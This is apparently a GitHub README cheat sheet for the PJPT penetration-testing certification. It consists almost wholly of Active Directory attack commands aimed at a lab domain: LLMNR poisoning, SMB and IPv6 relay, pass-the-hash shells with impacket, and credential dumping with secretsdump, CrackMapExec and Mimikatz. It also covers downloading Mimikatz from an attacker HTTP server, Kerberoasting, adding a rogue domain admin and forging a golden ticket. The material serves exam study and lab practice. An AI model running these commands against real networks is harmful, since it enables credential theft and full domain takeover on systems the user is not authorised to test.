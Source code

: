 ## PJPT Active Directory Cheat Sheet
✅ Passed PJPT on First Attempt

## Hashcat Commands
- `hashcat --help | grep NTLM`
- `hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt`
- `hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt --show`
- `hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt --force`
- `hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt -O`

## LLMNR Poisoning
- `sudo responder -I eth0 -dPv`

## SMB Relay Attack
- `nmap --script=smb2-security-mode.nse -p445 <IP Address>`
- `sudo mousepad /etc/responder/Responder.conf`  *(disable SMB/HTTP)*
- `sudo responder -I eth0 -dPv`
- `impacket-ntlmrelayx -tf targets.txt -smb2support`
- `impacket-ntlmrelayx -tf targets.txt -smb2support -i`
- `nc 127.0.0.1 11000`

## Gaining Shell (PSEXEC)
- `impacket-psexec marvel.local/fcastle:'Password1'@<IP Address>`
- `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d0a0c9797ef98b869751 administrator@<IP Address>`

## Gaining Shell (WMI/SMB)
- `impacket-wmiexec administrator@<IP Address> -hashes aad3b435...:7facdc498ed168...`
- `impacket-smbexec administrator@<IP Address> -hashes aad3b435...:7facdc498ed168...`

## IPv6 Attack
- `sudo mitm6 -d marvel.local`
- `impacket-ntlmrelayx -6 -t ldaps://<IP Address> -wh fakewpad.marvel.local -l lootme`

## ldapdomaindump
- `sudo ldapdomaindump ldaps://<IP Address> -u 'MARVEL\fcastle' -p Password1`

## BloodHound
- `sudo neo4j console`
- `sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns <IP Address> -c all`

## CrackMapExec Post-Exploitation
- `crackmapexec smb <IP Address> -u fcastle -d MARVEL.local -p Password1`
- `crackmapexec smb <IP Address> -u administrator -H aad3b435b... --local-auth`
- `crackmapexec smb <IP Address> --local-auth --sam`
- `crackmapexec smb <IP Address> --local-auth --shares`
- `crackmapexec smb <IP Address> --local-auth --lsa`
- `crackmapexec smb <IP Address> -L`
- `crackmapexec smb <IP Address> -M lsassy`

## SecretsDump
- `impacket-secretsdump MARVEL.local/fcastle:Password1@<IP Address>`

## Dump Hashes from Machines
- `impacket-secretsdump MARVEL.local/fcastle:'Password1'@<IP Address>`
- `impacket-secretsdump Administrator@<IP Address> -hashes aad3b435...:7facdc498ed168...`

## Crack with Hashcat
- `hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt`

## Kerberoasting
- `sudo impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip <IP Address> -request`
- `hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt`

## Token Impersonation (Meterpreter)
- `getuid`
- `load incognito`
- `list_tokens -u`
- `impersonate_token marvel\fcastle`
- `shell`
- `whoami`
- `rev2self`

## Add Domain Admin via Net Commands
- `net user /add hawkeye Password1@ /domain`
- `net group "Domain Admins" hawkeye /ADD /DOMAIN`

## Watering Hole Attack
- `netexec smb -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=<IP Address>`
- `sudo responder -I eth0 -dPv`

## Mimikatz Transfer + Execution
- `python3 -m http.server 8080`
- `Invoke-WebRequest -Uri "http://<IP Address>:8080/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"`
- `privilege::debug`
- `sekurlsa::logonPasswords`

## Dump NTDS.dit
- `impacket-secretsdump MARVEL.local/pparker:'Password2'@<IP Address> -just-dc-ntlm`

## Crack with Hashcat Again
- `hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt`
- `hashcat -m 5600 hash1.txt /usr/share/wordlists/rockyou.txt --show`

## Golden Ticket Attack with Mimikatz
- `privilege::debug`
- `lsadump::lsa /inject /name:krbtgt`
- `kerberos::golden /User:Administrator /domain:AFC-RICHMOND.LOCAL /sid:S-1-5-21-839... /krbtgt:a9dde840... /id:500 /ptt`
- `misc::cmd`

## Additional (Check Only – Do NOT Exploit)
- Zerologon (Vulnerability Check)
- PrintNightmare (Vulnerability Check)
